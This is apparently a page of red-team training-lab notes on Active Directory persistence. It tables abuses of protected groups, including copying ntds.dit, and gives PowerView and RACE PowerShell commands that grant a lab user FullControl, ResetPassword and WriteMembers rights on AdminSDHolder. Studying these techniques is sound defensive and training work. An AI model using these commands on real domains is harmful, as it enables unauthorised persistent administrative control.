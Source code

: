 | Protected Groups | |
|--|--|
| Account Operator | Enterprise Admins
| Backup Operators | Domain Controllers
| Server Operators | Read-only Domain Controllers
| Print Operators | Schema Admins
| Domain Admins | Administrators
| Replicator |

Well Known Abuse of some of the Protected Groups. The Groups Below can log in locally to the DC

| Group Name | Abuse |
|---|---|
| Account Operators | Cannot modify DA/EA/BA groups. Can modify nested group within these groups.
| Backup Operators | Backup GPO, edit to add SID of controlled account to a privileged group and Restore.
| Server Operators | Run a command as system (using the disabled Browser service)
| Print Operators | Copy ntds.dit backup, load device drivers.

#### Add FullControl permissions fora user to the AdminSDHolder using PowerView as DA:

```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

#### Add FullControl permissions fora user to the AdminSDHolder using ActiveDirectory Module and RACE Toolkit:

https://github.com/samratashok/RACE

```powershell
Set-DCPermissions -Method AdminSDHolder -SAMAccountName student1 -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Verbose
```

#### Other Interesting Permissions - Reset Password & WriteMember

```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
